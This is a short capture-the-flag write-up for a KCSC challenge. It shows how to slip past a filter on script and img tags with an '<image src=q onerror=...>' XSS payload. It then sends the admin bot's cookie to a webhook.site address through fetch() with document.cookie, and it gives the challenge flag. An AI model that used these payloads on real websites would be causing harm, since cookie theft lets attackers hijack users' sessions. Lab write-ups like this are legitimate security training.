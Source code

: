 # Hi Hi Hi
![](https://i.imgur.com/0LqHPLV.png)

## Solution

![](https://i.imgur.com/pMEwDLh.png)

After access link, At the title of page suggested that using XSS
So that, let try some payload at [Payload XSS](https://github.com/payloadbox/xss-payload-list)

All payloads contain `<script>,<img>` or equivalent use `<script>,<img>` tags are blocked.

![](https://i.imgur.com/tf3DwFA.png)

In addition to the `<script>,<img>` tags, there are many other tags that help us execute the function.

In this chall we can use `<image>,<audio>,...` tags

Like that: `<image src =q onerror=prompt(8)>`

![](https://i.imgur.com/pfV3Qc0.png)

![](https://i.imgur.com/t9Xf84V.png)

XSS done!

Next step is send a report for admin and steal their cookie.

Format URL: `http://127.0.0.1:13337/?message=your_payload`

In the payload instead of use `prompt()`, we use `fetch()` to redirect admin to our server (I often use [Webhook.site](https://webhook.site/))

URL: `http://127.0.0.1:13337/?message=<image src =q onerror=fetch('https://webhook.site/e3897dc9-35d2-450d-a2fd-81b3f023c9fb')>`

![](https://i.imgur.com/zx37VbH.png)

It works!

Now take their cookie with URL: ```http://127.0.0.1:13337/?message=<image src =q onerror=fetch(`https://webhook.site/e3897dc9-35d2-450d-a2fd-81b3f023c9fb/?cookie=${document.cookie}`)>```

In this case, to add variable `document.cookie` to string url in `fetch()` function we use template literals in js. ([Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals))

Send that report we will receive admin's cookie

![](https://i.imgur.com/DEASQa5.png)

It's also Flag: **KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}**